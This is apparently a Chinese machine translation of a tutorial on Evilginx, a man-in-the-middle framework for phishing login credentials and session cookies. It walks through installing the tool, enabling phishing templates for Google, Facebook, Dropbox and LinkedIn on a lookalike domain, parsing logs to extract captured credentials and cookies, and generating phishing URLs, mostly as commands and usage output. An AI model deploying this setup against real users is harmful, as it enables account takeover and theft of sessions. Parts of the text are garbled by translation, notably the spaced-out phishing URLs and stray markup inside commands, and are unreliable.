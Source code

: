 # evil ginx–针对网络钓鱼凭据和会话 Cookies 的 MITM 攻击框架

> 原文：<https://kalilinuxtutorials.com/evilginx-mitm-attack/>

Evilginx 是一个中间人攻击框架，用于任何 web 服务的钓鱼凭证和会话 cookies。它的核心运行在 Nginx HTTP server 上，利用`proxy_pass`和`sub_filter`代理和修改 HTTP 内容，同时拦截客户端和服务器之间的流量。

## **安装 evil ginx**

Evilginx 提供了一个安装脚本`install.sh`,它负责以一劳永逸的方式在任何 Debian wheezy/jessie 机器上安装整个软件包。

**亦读 [幽灵钓鱼者——无线&以太网攻击软件应用](https://kalilinuxtutorials.com/ghost-phisher-wireless-attack/)**

```
git clone https://github.com/kgretzky/evilginx
cd evilginx
chmod 700 install.sh
./install.sh
```

## **用法**

```
 `_ _       _            
           (_) |     (_)           
  _____   ___| | __ _ _ _ __ __  __
 / _ \ \ / / | |/ _` | | '_ \\ \/ /
|  __/\ V /| | | (_| | | | | |>  < 
 \___| \_/ |_|_|\__, |_|_| |_/_/\_\
                 __/ | 
 by @mrgretzky  |___/          v1.0

usage: evilginx.py [-h] {setup,parse,genurl} ...

positional arguments:
  {setup,parse,genurl}
    setup               Configure Evilginx.
    parse               Parse log file(s).
    genurl              Generate phishing URL.

optional arguments:
  -h, --help            show this help message and exit
```

## **设置**

使用`sites`目录中提供的 Evilginx 模板，启用或禁用用于 Nginx 服务器的站点配置。

```
usage: evilginx.py setup [-h] [-d DOMAIN] [-y]
                         (-l | --enable ENABLE | --disable DISABLE)

optional arguments:
  -h, --help            show this help message and exit
  -d DOMAIN, --domain DOMAIN
                        Your phishing domain.
  -y                    Answer all questions with 'Yes'.
  -l, --list            List available supported apps.
  --enable ENABLE       Enable following site by name.
  --disable DISABLE     Disable following site by name.
```

**列出可用的站点配置模板:**

```
python evilginx.py setup -l
```

**列出可用的支持站点:**
`**- dropbox (/root/evilginx/sites/dropbox/config)
subdomains: www** 
**- google (/root/evilginx/sites/google/config)
subdomains: accounts, ssl** 
**- facebook (/root/evilginx/sites/facebook/config)
subdomains: www, m** 
**- linkedin (/root/evilginx/sites/linkedin/config)
subdomains: www**`

**启用预先注册了钓鱼域名的谷歌钓鱼网站** `**not-really-google.com**` **:**

```
python evilginx.py** **setup --enable google -d not-really-google.com
```

**禁用 facebook 钓鱼网站:**

```
python evilginx.py setup --disable facebook
```

### **解析**

解析 Nginx 日志，提取截获的登录凭证和会话 cookies。默认情况下，日志保存在`evilginx.py`脚本所在的`logs`目录中。这可以在**设置**阶段启用自动解析后自动完成。

```
usage: evilginx.py parse [-h] -s SITE [--debug]

optional arguments:
  -h, --help            show this help message and exit
  -s SITE, --site SITE  Name of site to parse logs for ('all' to parse logs
                        for all sites).
  --debug               Does not truncate log file after parsing.
```

**只解析 google 站点的日志:**

```
python evilginx.py parse -s google
```

**解析所有可用站点的日志:**

```
python evilginx.py parse -s all
```

### **生成网址**

**生成可用于红队评估的网络钓鱼网址。**

```
usage: evilginx.py genurl [-h] -s SITE -r REDIRECT

optional arguments:
  -h, --help            show this help message and exit
  -s SITE, --site SITE  Name of site to generate link for.
  -r REDIRECT, --redirect REDIRECT
                        Redirect user to this URL after successful sign-in.
```

**Generate google phishing URL that will redirect victim to rick’roll video on successful login:**

```
python evilginx.py genurl -s google -r https://www.youtube.com/watch?v=dQw4w9WgXcQ
```

**生成了以下网络钓鱼网址:**

*   **[https://accounts.not-really-google.com/ServiceLogin?RC = 0 ah r0 CHM 6 ly 93d 3c uew 91 dhviz 5 JB 20 VD 2 f 0y 2g _ DJ 1 kuxc 0 dzlxz 1 hjuq](https://accounts.not-really-google.com/ServiceLogin?rc=0aHR0cHM6Ly93d3cueW91dHViZS5jb20vd2F0Y2g_dj1kUXc0dzlXZ1hjUQ)**
*   [**https://accounts . not-really-Google . com/sign in/v2/identifier？RC = 0 ah r0 CHM 6 ly 93d 3c uew 91 dhviz 5 JB 20 VD 2 f 0y 2g _ DJ 1 kuxc 0 dzlxz 1 hjuq**](https://accounts.not-really-google.com/signin/v2/identifier?rc=0aHR0cHM6Ly93d3cueW91dHViZS5jb20vd2F0Y2g_dj1kUXc0dzlXZ1hjUQ)